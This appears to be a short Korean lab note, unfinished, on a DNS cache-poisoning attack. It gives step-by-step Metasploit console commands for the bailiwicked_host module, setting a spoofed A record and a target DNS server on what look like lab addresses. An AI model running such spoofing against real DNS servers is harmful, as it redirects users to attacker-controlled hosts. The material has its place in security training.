




## DNS attack

- 구성도



- 공격

  - kail

    > metasploit 실행

    ```
    ┌──(root㉿kali)-[~]
    └─# msfconsole
    ```

    

    ```
    msf6 > use auxiliary/spoof/dns/bailiwicked_host
    ```

    

    > 설정하기

    A 레코드 문자열

    ```
    msf6 auxiliary(spoof/dns/bailiwicked_host) > set hostname www.kh00.kh
    hostname => www.kh00.kh
    ```

    A레코드 IP 주소

    ```
    msf6 auxiliary(spoof/dns/bailiwicked_host) > set NEWADDR 200.200.200.254
    NEWADDR => 200.200.200.254
    ```

    공격대상 DNS

    ```
    msf6 auxiliary(spoof/dns/bailiwicked_host) > set RHOST 172.16.0.105 (공격대상 DNS)
    RHOST => 172.16.0.105
    ```

    root hint로 설정

    ```
    msf6 auxiliary(spoof/dns/bailiwicked_host) > set srcport 53 
    srcport => 53
    ```

    

    ㄹㄹㅇㅁㄴ

    

    

